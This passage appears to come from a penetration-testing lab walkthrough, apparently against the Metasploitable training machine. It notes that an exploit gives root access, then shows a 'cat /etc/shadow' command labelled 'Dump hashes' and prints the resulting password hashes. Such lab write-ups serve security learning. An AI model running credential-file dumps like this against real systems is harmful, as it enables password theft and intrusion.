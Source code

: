 ![Privileged "root" session](4-exploitationassets/image-20230424152709148.png)

- 📌 This exploit gives back direct `root` access.

```bash
# Dump hashes
cat /etc/shadow
```

```bash
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
```